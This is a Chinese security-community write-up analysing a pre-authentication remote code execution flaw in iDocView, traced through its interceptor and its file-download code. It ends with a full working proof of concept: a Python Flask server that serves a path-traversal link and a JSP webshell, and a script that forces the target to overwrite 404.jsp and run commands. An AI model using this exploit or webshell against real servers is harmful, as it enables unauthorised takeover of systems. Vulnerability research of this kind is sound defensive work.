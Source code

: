 

# 奇安信攻防社区-IDocView前台远程代码执行漏洞分析

### IDocView前台远程代码执行漏洞分析

IDocView前台远程代码执行漏洞分析细节

![](assets/1701668680-75f6641b446c1f893755bf89e8dbbbfe.png)

昨天注意到一个IDocView系统的漏洞被披露了，发现是几个月之前审计过的漏洞，这里和师傅们分享一下当时的漏洞分析记录。

## 影响范围

iDocView < 13.10.1\_20231115

## 漏洞原理

漏洞原理大概就是使用未过滤的接口进行远程文件下载，会对传入的url进行下载，并且会解析url对应源码标签中的链接标签并且进行下载，而标签链接解析下载的过程中存在路径过滤缺陷导致任意文件上传。

## 过滤检查

IDocView通过Tomcat+Spring-Mvc布置在Windows中，请求接口过滤通过继承于org.springframework.web.servlet.handler.HandlerInterceptorAdapter的com.idocv.docview.interceptor.ViewInterceptor进行定义，

com.idocv.docview.interceptor.ViewInterceptor#preHandle 是任何请求都会调用的过滤函数，主要会对文件预览、文件上传、文件下载功能接口进行身份验证。

且com.idocv.docview.interceptor.ViewInterceptor#thdViewCheckSwitch=false 不会进行upload和download接口进行身份验证。

![](assets/1701668680-9a2cd265533cc10be5eed30e9cdf71e7.png)

## 漏洞入口

/html/2word对应的入口函数为com.idocv.docview.controller.HtmlController#toWord

![](assets/1701668680-d10b03cc63fa107585f8b2a27873052c.png)

函数大致流程如下：

1.  计算url的md5值作为子目录名
2.  判断子目录是否存在，不存在则根据url链接下载资源
3.  判断是否存在文件md5Url + ".docx"是否存在
4.  不存在则通过pandoc.exe生成md5Url + ".docx"文件
5.  返回md5Url + ".docx"文件

其中关键函数为下载资源的com.idocv.docview.util.GrabWebPageUtil#downloadHtml

![](assets/1701668680-01cd05aa44e1d4b1789f03672403f634.png)

传入url到downloadHtml函数后首先是会对getWebPage进行文件下载

（函数较长所以分几个部分截图了）

首先是进行一些请求的header设置

![](assets/1701668680-7c60d83588bc0228b258a90f7a5d146d.png)

下面会下载url文件源码内容后进行一些格式解析处理后写入到url链接中指定的文件名中

![](assets/1701668680-36d8ff0009b0d26c493e8d92925dfb51.png)

看到这里之前审计的时候发现有asp、aspx、php这些可能为webshell格式的过滤而没有过滤jsp后缀。传入第二个参数中的outputDir指定了目录，而这个目录并不能被我们直接通过url指定；同时下载的文件名在第三个参数指定为index.html，所以下载文件的位置并不能给我们指定。

![](assets/1701668680-a6c25a0ca8468211aa244c01c897f95d.png)

问题并不是出在第一次执行的getWebPage

## 远程文件下载

com.idocv.docview.util.GrabWebPageUtil#getWebPage(java.net.URL, java.io.File, java.lang.String)

在第一次下载url内容的时候并不能进行利用，但是在下面再次调用了getWebPage函数

![](assets/1701668680-860e196a738863b8e8997c0a63d7e882.png)

这里的双参数和三参数的getWebPage是一样的，双参数将最后一个保存文件名进行指定，如果第三个参数未指定，则会根据url获得最后一个/之后的字符串作为文件名

```Java
public static void getWebPage(URL obj, File outputDir) {
   getWebPage(obj, outputDir, (String)null);
}
```

```Java
String path = obj.getPath();
String filename = path.substring(path.lastIndexOf(47) + 1);
if (filename.equals("/") || filename.equals("")) {
   filename = "default.html";
}

System.out.println(filename);
if (StringUtils.isNotBlank(fileName)) {
   filename = fileName;
}
```

而之后在这个For循环中的链接是源自于第一次从链接中下载的页面源码，并且从中解析出img、link、script中的指定加载的远程连接文件，且解析后的链接会加入到GrabUtility.*filesToGrab中。*

录入访问链接[http://host:port/links.html返回的内容为：](http://host:port/links.html%E8%BF%94%E5%9B%9E%E7%9A%84%E5%86%85%E5%AE%B9%E4%B8%BA%EF%BC%9A)

```Java
<img src="https://host:port/1.png">
```

那么1.png图片就会下载于md5为名的子目录下：

![](assets/1701668680-ee8b468d497a2ca89b824097cf13286d.png)

## Poc构建

到这里攻击流程其实就已经可以进行webshell文件上传了：

1.  web服务器里面存放一个links.html文件写入带着目录穿越路径的url链接：
    
    ```Java
    <link href="http://127.0.0.1:5050/..\..\..\..\docview\\WEB-INF\\views\\404.jsp">
    ```
    
2.  访问`/docview/html/2word`传入url=[http://server-host/links.html](http://server-host/links.html)
    
3.  受害服务器下载links.html文件并且解析出link 标签的下载文件路径`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`并且将文件名通过目录拼接的方式保存到本地
    
4.  web服务器里面定义路由，当访问`..\..\..\..\docview\\WEB-INF\\views\\404.jsp`路径的时候，返回一个webshell文件
    
5.  最后访问一个任意IdocView不存在的路由就会加载覆盖后的404.jspwebshell文件
    

```Java
import random
import threading
import time
import requests
from flask import Flask, request

app = Flask(__name__)

raw_404_page="404 Page Text"
jsp_webshell = """
<!-- request with Parameter 'cmd'-->
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<%=output %>"""

@app.route('/<path:path>')
def serve_content(path):
    if "jsp" in request.url:
        return raw_404_page + jsp_webshell
    elif "links" in request.url:
        return  f"""<link href="http://127.0.0.1:5050/..\\..\\..\\..\\docview\\WEB-INF\\views\\404.jsp">"""
    else:
        return 'who are you???'

def exp(host):
    time.sleep(5)
    url = host + '/html/2word'
    r = requests.post(url,
                      data={
                          "url": f"http://127.0.0.1:5050/links.html_{random.Random().randint(0, 1000000)}"
                      })
    print(r.status_code)
    print(r.text)
    requests.get(host+"/xxx?cmd=calc")

if __name__ == '__main__':
    threading.Thread(target=exp,args=("http://192.168.92.1:8080/docview",)).start()
    app.run(port=5050,debug=True,host='0.0.0.0')
```

![](assets/1701668680-b3394651b8962e212fb7cbd545f7b670.png)

这是执行命令前访问/xxx?cmd=whoami的结果

![](assets/1701668680-a48e135a8db6515997046adb7598d203.png)

执行脚本后404页面变化执行命令输出回显

![](assets/1701668680-dd990086fb913ac21bf7ab39ac5a4171.png)
